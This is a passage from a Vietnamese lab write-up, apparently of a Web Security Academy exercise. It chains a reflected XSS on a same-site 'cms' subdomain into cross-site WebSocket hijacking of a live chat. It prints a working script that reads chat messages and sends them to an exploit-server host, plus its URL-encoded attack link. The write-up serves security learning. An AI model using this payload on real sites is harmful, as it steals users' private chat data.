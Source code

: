 Thì ở đây nó đã được 1 session mới cho mình và cả `SameSite=Strict` thì nó yêu cầu trình duyệt ko gửi đi bất kỳ request cross-site nào. 

Nên bây giờ mình thử login với payload `<h1>test</h1>`. 

![image](https://hackmd.io/_uploads/rJhi_Hk_xl.png)

Nó hoàn toàn bị dính Reflected XSS! 

Và sau một hồi thì mình trigger bằng GET. 

![image](https://hackmd.io/_uploads/BJK-tHyOlg.png)

Nó chuyền payload vào thì được như sau: 

![image](https://hackmd.io/_uploads/r1c4FHkugg.png)

Tổng kết lại thì mình tìm thấy: 
- 1 CSWSH trong live chat 
- 1 Reflected XSS trong domain `cms` 

Thì theo ở đã biết thì `cms-0aa1000c03396524806d1c66009b000e.web-security-academy.net` thì nó là một **same-site**. 

Từ đây mình có thể dùng XSS để làm CSWSH mà ko bị hạn chế về SameSite: 

CSWSH payload: 
```HTML
<script>
    var webSocket = new WebSocket('wss://0aa1000c03396524806d1c66009b000e.web-security-academy.net/chat');
    webSocket.onopen = function() {
        webSocket.send("READY");
    };
    webSocket.onmessage = function(event) {
        fetch('https://exploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net/log?'+event.data, {method: 'GET'});
    };
</script>
``` 

Sau đó, mình URL encode payload CSWSH: 

```
%3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0aa1000c03396524806d1c66009b000e.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E
``` 

Tiếp theo cái payload XSS tại `cms` là: 

```
http://cms-0aa1000c03396524806d1c66009b000e.web-security-academy.net/login?username=3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0aa1000c03396524806d1c66009b000e.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=123
```
